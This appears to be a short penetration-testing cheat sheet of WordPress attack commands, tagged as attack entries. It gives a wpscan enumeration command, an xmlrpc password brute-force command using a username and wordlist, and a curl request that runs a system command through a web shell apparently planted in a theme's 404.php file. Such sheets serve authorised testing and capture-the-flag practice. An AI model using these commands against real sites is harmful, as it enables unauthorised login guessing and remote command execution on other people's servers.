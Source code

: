 ## Wordpress - wpscan - enumerate
#plateform/linux #target/remote #port/80 #protocol/http #cat/ATTACK/
```
wpscan --url <url> --enumerate
```

## Wordpress - xmlrpc brute force
#plateform/linux #target/remote #port/80 #protocol/http #cat/ATTACK/
```
wpscan --password-attack xmlrpc -t 20 -U <username> -P <wlist> --url <url>
```

## Wordpress - theme editor rce
#plateform/linux #target/remote #port/80 #protocol/http #cat/ATTACK/
```
curl -X GET "<baseURL>/wp-content/themes/twentyseventeen/404.php?cmd=id"
```
